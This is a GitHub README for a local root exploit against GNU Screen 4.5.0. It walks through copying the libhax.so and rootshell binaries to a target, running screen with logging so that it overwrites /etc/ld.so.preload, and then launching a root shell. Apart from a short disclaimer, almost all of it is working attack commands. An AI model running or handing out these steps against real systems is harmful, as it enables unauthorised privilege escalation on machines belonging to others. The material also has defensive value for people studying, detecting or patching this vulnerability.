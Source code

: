 # GNU Screen-4.5.0 Local-Privilege-Escalation


---

# Screenroot Exploit

This repository contains the binary files `libhax.so` and `rootshell`, which are part of a local root exploit for screen version 4.5.0. This exploit abuses `ld.so.preload` overwriting to escalate privileges.

## Disclaimer
This code is for educational purposes only. Do not use this exploit on systems you do not own or have explicit permission to test.

## Requirements
- A machine with `screen` version 4.5.0 or a vulnerable version installed.
- Access to the target machine where you can transfer and execute the binaries.

## Exploit Execution

### 1. Clone this repository
First, clone the repository to your local machine:

```bash
git clone https://github.com/H420Prajyot/Screen-4.5.0--Exploit.git
cd Screen-4.5.0--Exploit
```

### 2. Transfer the binaries
Copy the `libhax.so` and `rootshell` binaries to the target machine. You can use `scp` or another method of file transfer:

```bash
scp libhax.so rootshell user@target:/tmp/
```

### 3. Set the appropriate permissions
On the target machine, change the permissions of the `rootshell` binary:

```bash
chmod +x /tmp/rootshell
```

### 4. Exploit the vulnerability
To exploit the vulnerability, run the following commands on the target machine:

```bash
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
```

This overwrites `ld.so.preload`, which allows the exploit to escalate privileges.

### 5. Trigger the exploit
Now, trigger the `rootshell` to obtain a root shell:

```bash
/tmp/rootshell
```

You should now have root access.

---

